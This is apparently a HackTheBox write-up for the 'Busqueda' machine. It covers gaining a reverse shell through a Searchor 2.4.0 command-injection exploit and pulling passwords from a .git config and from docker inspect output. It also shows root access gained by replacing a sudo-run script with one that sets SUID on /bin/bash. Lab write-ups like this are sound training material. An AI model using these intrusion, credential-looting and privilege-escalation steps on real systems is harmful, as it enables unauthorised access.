 
## Reconnaissance

### nmap 
```
nmap -sC -sV -oN busquesda_light 10.10.11.208
```



![[./IMG/42.png]]
### Web Service 

> Visit Web Top Page



> Find the clue about web framework - Searchor 2.4.0



> Research for Searchor 2.4.0

```
searchsploit searchor
```



> Research from internet 


> Find some exploit codes for searchor
1. [Searchor_2.4.0_RCE_Python](https://github.com/twisted007/Searchor_2.4.0_RCE_Python)
2. [Searchor-2.4.0-POC-Exploit](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)
3. [Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)





## Exploit 

> Try the exploit code 
> The message shows the usage for this RCE code

```
python searchor-2_4_0_RCE.py
```


> Following the usage guide to execute it again

```
python searchor-2_4_0_RCE.py searcher.htb 10.10.16.107 1337
```


> Check nc listener, it will get reverse shell



> Confirm the current user, its 'svc'

```
id 
whoami
```

> Get user flag


## Privilege Escalation 

> After get the permission of victim
> I tried to check the sudo permission for current user first.

```
sudo -l
```

> It'll ask password.



- Enum the website directory 



- Check the webroot content, I found a hidden file '.git'



- Check git directory, I find a config file.
- In this config file, it includes the credential.

```
cody / jh1usoih2bkjaspwe92
```

- And there is also have shown that the subdomain website for this credential 
- Add it to hosts file 

```
gitea.searcher.htb
```



- Access the subdomain 



- Login with cody credential



- It's a git repository service 
- Check repository in cody's credential, only have Searcher website's source code.


- But I also find the Searcher web site is created by administrator
- So there should exist another user named 'administrator'


- Execute the sudo list permission command again 

```
sudo -l
```

- Using cody's credential





- Then follow the result, execute system-checkup.py like sudo permission for user svc

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py
```



- Check the content of /opt/scripts 

```
ls /opt/scripts
```



- Check the code of system-checkup.py --> Failed (Permission denied)



- It's not able to analysis the system-checkup code.
- So, I need to just follow the usage guide to execute this python file then analysis the action of this scripts.
- It's kind of black box test.
- Follow the usage guide, execute docker process 

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```



- 2 active docker container
- Try to execute docker inspect 
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
```



- It will show another usage guide, I will need to provide 2 parameter 
	1. format
	2. container name
- I think container name can be get from docker-ps result.
- But I have no idea what kind of format I should provide.
- Research and find [this article](https://docs.docker.com/engine/reference/commandline/inspect/)
> Docker inspect provides detailed information on constructs controlled by Docker.
> By default, `docker inspect` will render results in a JSON array.

- According to the guideline, I can use '{{json .Config}}' as json format/



> Execute to check 1st docker container

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a5b33fb5a
```



> Find the following password 

```
MYSQL_ROOT_PASSWORD = jI86kGUuj87guWr3RyF
MYSQL USER = gitea
MYSSQL_PASSWORD = yuiu1hoiu4i5ho1uh
```

> Execute to check 2nd docker container

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
```


> Find the following password 
```
GITEA_database_NAME = gitea
GITEA_database_PASSWD = yuiu1hoiu4i5ho1uh
```

> Try different combination to login gitea as administrator 

```
1. administrator / yuiu1hoiu4i5ho1uh
2. administrator / jI86kGUuj87guWr3RyF
```

> The 1st one will success



> Check the code in administrator 



> Read the content of system-checkup.py

```
#!/bin/bash

import subprocess

import sys

  

actions = ['full-checkup', 'docker-ps','docker-inspect']

  

def run_command(arg_list):

r = subprocess.run(arg_list, capture_output=True)

if r.stderr:

output = r.stderr.decode()

else:

output = r.stdout.decode()

  

return output

  
  

def process_action(action):

if action == 'docker-inspect':

try:

_format = sys.argv[2]

if len(_format) == 0:

print(f"Format can't be empty")

exit(1)

container = sys.argv[3]

arg_list = ['docker', 'inspect', '--format', _format, container]

print(run_command(arg_list))

except IndexError:

print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")

exit(1)

except Exception as e:

print('Something went wrong')

exit(1)

elif action == 'docker-ps':

try:

arg_list = ['docker', 'ps']

print(run_command(arg_list))

except:

print('Something went wrong')

exit(1)

  

elif action == 'full-checkup':

try:

arg_list = ['./full-checkup.sh']

print(run_command(arg_list))

print('[+] Done!')

except:

print('Something went wrong')

exit(1)

  

if __name__ == '__main__':

  

try:

action = sys.argv[1]

if action in actions:

process_action(action)

else:

raise IndexError

  

except IndexError:

print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')

print('')

print(' docker-ps : List running docker containers')

print(' docker-inspect : Inpect a certain docker container')

print(' full-checkup : Run a full system checkup')

print('')

exit(1)
```





> The valuable to do escalate is full-checkup 
> Full-checkup function will execute shell file



> Try to execute full-checkup

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```



> Check the detail of full-check.sh in repo


> So, the original full-checkup shell script will check the container status and the information of all container.
### Organize all the information 

> Until now, I have the following information
- Get Cody's credential for gitea repo site from .git config file 
- The same credential can login to svc with sudo permission
- According to sudo permission result, I can execute some python file(system-checkup.py) with root 
- This python file allow to execute some docker command and a shell script.
- Through the docker command (docker inspect) I get other credential related to gitea repo, use these creds, I can login gitea with administrator
- In gitea as administrator user, I can check the source code of system-checkup.py, and I found that the full-checkup option will execute shell script.
- So, it means I can use root user to execute shell script.

> Then with above conclusion, I should create a fake shell script which also named as 'full-checkup.sh'
> Then using system-checkup.py to execute it.
### Escalation step

> Create fake full-checkup shell 
> This shell script will add suid permission to /bin/bash

```
#!/bin/bash
chmod +s /bin/bash
```



> Execute fake full-checkup script by system-checkup.py

```
python3 /opt/scripts/system-checkup.py full-checkup
```



> After executing, check the current permission setting on /bin/bash 



> Using bash with privilege option to escalate the root permission  

```
bash -p
```



> Check  user permission, I can find the euid with root permission get



> Get root flag



## Reference 

### Writup up

- [Busqueda 1](https://www.bughunter.me/ctf-write-ups/hackthebox-busqueda-write-up/)
- [Busqueda 2](https://blog.csdn.net/qq_58869808/article/details/130050438)
- [Busqueda 3](https://www.google.com/search?q=busqueda+htb&rlz=1C5CHFA_enTW1055TW1055&oq=busqueda+&gs_lcrp=EgZjaHJvbWUqBwgBEAAYgAQyBggAEEUYOTIHCAEQABiABDIHCAIQABiABDIHCAMQABiABDIHCAQQABiABDIHCAUQABiABDIHCAYQABiABDIHCAcQABiABDIHCAgQABiABDIHCAkQABiABNIBCDQ5NzZqMGo3qAIAsAIA&sourceid=chrome&ie=UTF-8)
- [Busqueda 4](https://blog.213.se/busqueda-hackthebox/)
### Searchor

- [Searchor](https://github.com/ArjunSharda/Searchor)

#### Searchor Exploit 

1. [Searchor_2.4.0_RCE_Python](https://github.com/twisted007/Searchor_2.4.0_RCE_Python)
2. [Searchor-2.4.0-POC-Exploit](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)
3. [Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

### Docker 

- [docker inspect](https://docs.docker.com/engine/reference/commandline/inspect/)
- [Docker inspect 命令](https://www.runoob.com/docker/docker-inspect-command.html)

###### tags: `HackTheBox`